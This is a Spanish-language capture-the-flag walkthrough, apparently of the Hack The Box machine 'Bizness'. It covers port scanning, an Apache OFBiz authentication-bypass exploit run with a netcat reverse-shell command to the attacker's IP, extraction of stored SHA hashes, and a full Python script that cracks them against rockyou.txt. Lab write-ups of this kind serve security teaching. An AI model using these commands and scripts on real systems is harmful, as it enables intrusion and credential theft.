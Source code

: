 Primero de todo haremos un escaneo de la ip para ver que puertos estan abiertos y que servicios tiene asociados.

`sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.252 -oN escaneo`

![[Pasted image 20240426090418.png]]

Vemos que está corriendo una web. Entonces procediremos a realizar un fuzzing de la misma.
Al hacerlo hemos encontrado una ruta que es `/control/login` que nos redirecciona a un apache OFBiz.
![[Pasted image 20240426092249.png]]

Vamos a intentar bypassearlo, para ello buscaremos `apache ofbiz bypass` y entraremos al primer link. (https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) y clonaremos el github.

`git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git`

![[Pasted image 20240426092605.png]]

Ahora vamos a ejecutar el exploit. Para ello nos vamos a poner en escucha con netcat y luego ejecutaremos el exploit.

`nc -lnvp 4444`

Y en otra terminal el exploit.

`python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.38 4444'`

![[Pasted image 20240426093645.png]]

Como podemos ver tenemos el control de la máquina. Ahora nos pondremos en la carpeta del usuario y veremos que está la flag de usuario.
![[Pasted image 20240426093845.png]]

Para escalar privilegios nos situaremos en la carpeta /opt/ofbiz y analizaremos los archivos y directorios. Tras analizar detalladamente he encontrado un archivo con la ruta:

`/opt/ofbiz/framework/resources/templates/AdminUserLogin.xml`

Este contenia el tipo de cifrado que es sha.

`{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a`

Tocará descifrarla, pero antes en la ruta:

`/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat`

He encontrado al password.

`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`

Para poder descifrarla, he encontrado el siguiente exploit y hay que introducir nuesto hash y tipo de cifrado.
````
import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        """
        Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.

        :param hash_type: The hash algorithm to use (default is SHA).
        :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).
        """
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        """
        Crypt a password using the specified hash type and salt.

        :param salt: The salt used in the encryption.
        :param value: The password value to be encrypted.
        :return: The encrypted password string.
        """
        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
        """
        Get the encrypted bytes for a password.

        :param salt: The salt used in the encryption.
        :param value: The password value to get encrypted bytes for.
        :return: The encrypted bytes as a string.
        """
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

# Example usage:
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'

# Create an instance of the PasswordEncryptor class
encryptor = PasswordEncryptor(hash_type)

# Get the number of lines in the wordlist for the loading bar
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

# Iterate through the wordlist with a loading bar and check for a matching password
with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        # Get the encrypted password
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        # Compare with the search hash
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  # Stop the loop if a match is found
````

Lo ejecutamos y nos da el password.
![[Pasted image 20240426100223.png]]
![[Pasted image 20240426100347.png]]![[Pasted image 20240426100536.png]]
